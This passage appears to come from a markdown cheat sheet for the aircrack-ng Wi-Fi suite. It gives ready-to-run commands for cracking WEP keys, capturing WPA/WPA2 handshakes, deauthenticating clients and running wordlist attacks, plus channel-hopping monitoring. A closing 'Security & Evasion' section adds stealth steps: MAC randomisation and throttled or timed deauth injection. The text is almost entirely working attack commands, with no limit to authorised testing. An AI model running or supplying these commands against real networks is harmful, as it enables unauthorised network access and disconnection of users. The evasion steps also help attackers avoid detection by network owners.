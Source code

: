 ```bash

# 5. ARP request replay
aireplay-ng -3 -b 00:11:22:33:44:55 -h 00:11:22:33:44:66 wlan0mon

# 6. Crack the key
aircrack-ng wep_capture.cap
```

### **Complete WPA/WPA2 Attack**
```bash
# 1. Start monitor mode
airmon-ng start wlan0

# 2. Discover networks
airodump-ng wlan0mon

# 3. Target specific network and capture handshake
airodump-ng -c 6 --bssid 00:11:22:33:44:55 -w wpa_capture wlan0mon

# 4. (New terminal) Deauthenticate clients
aireplay-ng -0 5 -a 00:11:22:33:44:55 wlan0mon

# 5. Crack with wordlist
aircrack-ng -w wordlist.txt wpa_capture.cap
```

### **Network Monitoring Setup**
```bash
# Comprehensive monitoring
airodump-ng -c 1,6,11 --hop-interval 500 -w monitor --output-format csv wlan0mon

# Channel hopping with all channels
airodump-ng --channel 1-11 --hop-interval 250 wlan0mon

# Monitor specific network continuously
airodump-ng -c 6 --bssid 00:11:22:33:44:55 --beacons --localtime wlan0mon
```

---

## 🛡️ Security & Evasion

### **Stealth Techniques**
```bash
# Random MAC address
macchanger -r wlan0mon

# Low-power injection
aireplay-ng -0 1 -a 00:11:22:33:44:55 wlan0mon

# Delayed injection
aireplay-ng -0 5 -a 00:11:22:33:44:55 --delay 1000 wlan0mon

# Specific time injection
aireplay-ng -0 5 -a 00:11:22:33:44:55 --time 30 wlan0mon
```
